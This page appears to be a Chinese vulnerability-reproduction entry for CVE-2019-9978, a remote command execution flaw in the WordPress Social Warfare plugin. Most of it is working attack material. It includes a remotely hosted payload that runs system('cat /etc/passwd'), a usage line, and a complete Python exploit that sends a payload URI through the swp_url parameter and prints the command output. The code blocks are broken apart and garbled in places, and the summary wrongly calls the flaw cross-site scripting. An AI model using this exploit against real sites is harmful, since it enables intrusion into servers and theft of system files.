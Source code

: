 ```yaml
---
title: （CVE-2019-9978）WordPress Plugin - social warfare 远程命令执行漏洞
id: zhfly3248
---
```


# （CVE-2019-9978）WordPress Plugin - social warfare 远程命令执行漏洞

## 一、漏洞简介

WordPress social-warfare插件3.5.3之前版本中存在跨站脚本漏洞。远程攻击者可借助‘swp_url’参数利用该漏洞注入恶意的JavaScript脚本。

## 二、漏洞影响

Social WarFare Plugin (<=3.5.2)

## 三、复现过程

### poc

> 首先在自己的服务器上传http(s)://www.0-sec.org/payload.txt

```
<pre>system('cat /etc/passwd')</pre> 
```

> useage
> 
> ```
>  python cve-2019-9978.py --target http://vulntarget.com \
>                          --payload-uri http://yourpayloadsite.com/payload.txt 
> ```

```
# Title: RCE in Social Warfare Plugin ( <=3.5.2 )
# Date: March, 2019
# Researcher: Luka Sikic
# Exploit Author: hash3liZer
# Download Link: https://wordpress.org/plugins/social-warfare/
# Version: <= 3.5.2
# CVE: CVE-2019-9978

import sys

import requests

import re

import urlparse

import optparse

class EXPLOIT:

```
VULNPATH = "wp-admin/admin-post.php?swp_debug=load_options&amp;swp_url=%s"

def __init__(self, _t, _p):
	self.target  = _t
	self.payload = _p

def engage(self):
	uri = urlparse.urljoin( self.target, self.VULNPATH % self.payload )
	r = requests.get( uri )
	if r.status_code == 500:
		print "[*] Received Response From Server!"
		rr  = r.text
		obj = re.search(r"^(.*)&lt;\!DOCTYPE", r.text.replace( "\n", "lnbreak" ))
		if obj:
			resp = obj.groups()[0]
			if resp:
				print "[&lt;] Received: "
				print resp.replace( "lnbreak", "\n" )
			else:
				sys.exit("[&lt;] Nothing Received for the given payload. Seems like the server is not vulnerable!")
		else:
			sys.exit("[&lt;] Nothing Received for the given payload. Seems like the server is not vulnerable!")
	else:
		sys.exit( "[~] Unexpected Status Received!" ) 
```

def main():

parser = optparse.OptionParser(  )

```
parser.add_option( '-t', '--target', dest="target", default="", type="string", help="Target Link" )
parser.add_option( ''  , '--payload-uri', dest="payload", default="", type="string", help="URI where the file payload.txt is located." )

(options, args) = parser.parse_args()

print "[&gt;] Sending Payload to System!"
exploit = EXPLOIT( options.target, options.payload )
exploit.engage() 
``` `if **name** == “**main**”:

main()` 
```
